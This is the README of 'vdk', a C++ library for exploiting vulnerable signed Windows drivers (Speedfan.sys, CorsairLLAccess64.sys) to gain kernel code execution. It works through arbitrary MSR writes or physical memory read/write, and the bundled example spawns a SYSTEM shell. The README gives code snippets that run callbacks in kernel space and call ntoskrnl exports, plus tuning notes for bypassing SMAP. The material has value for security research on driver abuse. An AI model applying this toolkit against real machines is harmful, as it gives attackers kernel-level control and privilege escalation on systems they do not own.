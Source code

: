 # vdk - vulnurable driver kit

*vdk* is a set of utilities used to help with exploitation of a vulnurable driver.
There are 2 main features of this library:
1. Getting kernel code execution via arbitrary msr write vulnurability
2. Getting kernel code execution via arbitrary physical memory read/write vulnurability

This project was written after I played with a few vulnurable drivers and was highly inspired by [msrexec](https://back.engineering/22/03/2021/) and [vdm](https://back.engineering/01/11/2020/) projects. I suggest you to read them first to understand what's going on.

Treat this project as a rewritten and combined version of those two.

There are 2 vulnurable drivers that you can use this library with but it should be easy to extend to use with any vulnurable driver. The corresponding code is in `example/src/llaccess.hpp` for `CorsairLLAccess64.sys` and `example/src/speedfan.hpp` for `Speedfan.sys`.
The example project shows every part of this library and uses speedfan driver to spawn shell with system privileges.

# How to use
cmkr example:
```
[fetch-content.vdk]
git = "https://github.com/archercreat/vdk.git"
...
link-libraries = ["vdk"]
```

cmake example:
```cmake
include(FetchContent)
FetchContent_Declare(vdk GIT_REPOSITORY https://github.com/archercreat/vdk.git)
FetchContent_MakeAvailable(vdk)

target_link_libraries(${PROJECT_NAME} PRIVATE vdk)
```

# Examples
Please refer to example folder for more examples.

Execute callback in kernel space by abusing abritrary msr write vulnurability:
```cpp
using dbgprint_t = void(*)(const char*, ...);

vdk::msr::exec([&](void* base, vdk::resolver_t resolver)
{
	auto print = reinterpret_cast<dbgprint_t>(resolver(base, "DbgPrint"));
	print("Hello from kernel! cr3: 0x%llx\n", __readcr3());
},
[&](uint32_t msr, uint64_t value)
{
    wrmsr_cmd cmd
    {
        .msr   = msr,
        .value = value
    };
    unsigned long temp, result;
    return DeviceIoControl(drv, ioctl_wrmsr, &cmd, sizeof(cmd), &result, sizeof(result), &temp, nullptr);
});
```

Execute any ntoskrnl exported function:
```cpp
void* sysproc{};
auto status = vdk::map::syscall<proclookup_t>(rdmem, wrmem, "PsLookupProcessByProcessId", 4, &sysproc);
fassert(NT_SUCCESS(status));
```

Iterate over physical regions:
```cpp
for (const auto& region : vdk::phy::regions())
{
	std::printf("Region: 0x%llx - 0x%llx\n", region.start, region.start + region.size);
}
```

Resolve exported function from pe module:
```cpp
std::vector<uint8_t> raw;
vdk::drv::read_file("C:\\Windows\\System32\\ntoskrnl.exe", raw);
auto rva = vdk::pe::get_export_rva(raw.data(), "RtlFindExportedRoutineByName");
```

Retrieve loaded modules list:
```cpp
for (const auto& module : vdk::drv::loaded())
{
	std::printf("0x%llx - 0x%llx %s\n", module.base, module.base + module.size, module.name.c_str());
}
```

Scan memory region for patterns (`0x00` - any character):
```cpp
std::vector<uint8_t> buf{ 0x69, 0x69, 0x69, 0x10 };
auto ptr = vdk::mem::find_first(buff.data(), buf.size(), "\x69\x69\x69\x00", 4);
fassert(ptr);
```

# Notes
The msr exploitation is highly unstable and should be used as a last resort. There is a high chance that the thread will switch to another core where `cr4.smap` isn't disabled. If you really want to use msr exploit, build project in `Release` mode and replace cr4 value that is specific to your PC in `lib/vdk/msr.cpp` (I didn't bother getting cr4 value dynamically but might do it later).

# build
```
cmake -B build
cmake --build build --config Release
```

# Credits
All credits go to `_xeroxz` and his `msrexec` and `vdm` projects.
